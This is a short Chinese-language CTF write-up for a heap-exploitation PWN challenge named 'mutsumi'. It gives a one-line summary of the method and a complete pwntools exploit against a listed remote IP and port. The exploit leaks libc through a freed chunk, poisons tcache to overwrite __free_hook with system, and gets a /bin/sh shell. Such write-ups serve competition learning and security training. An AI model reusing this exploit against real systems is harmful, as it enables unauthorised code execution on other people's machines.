

# mutsumi

WK-[已脱敏]-[email已脱敏]
### **题目类型+题目名称**

PWN-mutsumi

### **解题思路（必须包含文字说明+截图）**

堆溢出，通过/bin/sh得到shell



这里本来应该有flag，但垃圾系统经常崩，所以没有了。

### **Exp（如有，请粘贴完整代码，不允许截图！）**

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

binary = './pwn'
libc = './libc.so.6'
host, port = "101.200.155.151:12700".split(":")

r = remote(host,port)

libc_ = ELF(libc)
elf_ = ELF(binary)

def meau(idx):
    r.sendlineafter('choice:\n',str(idx))

def add(idx,sz):
    meau(1)
    r.sendlineafter('coordinate:\n',str(idx))
    r.sendlineafter('required:\n',str(sz))

def free(idx):
    meau(2)
    r.sendlineafter('cleanse:\n',str(idx))

def edit(idx,len,ct):
    meau(3)
    r.sendlineafter('inscription:\n',str(idx))
    r.sendlineafter('length:\n',str(len))
    r.sendlineafter('truth:\n',ct)

def show(idx):
    meau(4)
    r.sendlineafter('truth:\n',str(idx))


add(0,0x60)
add(1,0x420)
add(2,0x20)
add(3,0x60)
add(4,0x20)

free(1)
show(1)


libcbase = u64(r.recv(6).ljust(8,b'\x00')) - 0x3ebca0
free_hook = libcbase + libc_.sym['__free_hook']
system = libcbase + libc_.sym['system']


free(0)
free(3)


payload = b'/bin/sh\x00'.ljust(0x28,b'\x00') + p64(0x71) + p64(free_hook)
edit(2,0x40,payload )
add(5,0x60)
add(6,0x60)
edit(6,0x8,p64(system))

free(2)
r.interactive()
```


